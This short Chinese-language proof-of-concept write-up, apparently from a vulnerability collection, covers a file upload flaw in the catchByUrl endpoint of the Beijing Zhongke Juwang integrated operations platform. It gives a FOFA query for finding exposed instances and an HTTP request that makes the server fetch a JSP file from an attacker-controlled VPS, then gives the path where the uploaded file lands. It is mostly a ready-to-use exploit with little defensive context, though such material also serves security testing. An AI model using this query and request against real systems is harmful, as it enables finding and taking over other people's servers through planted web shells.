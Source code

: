 ## 北京中科聚网一体化运营平台catchByUrl存在文件上传漏洞

## fofa
```
body="thirdparty/ueditor/WordPaster"
```

## poc
```
GET /resources/files/ue/catchByUrl?url=http://vpsip/exp.jsp HTTP/1.1 
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
Connection: close
```

![image](../../images/3e2d95ec-d3e1-44a9-aed6-17152ed0a3aa.png)

文件路径`http://ip/files/headimg/.jsp`
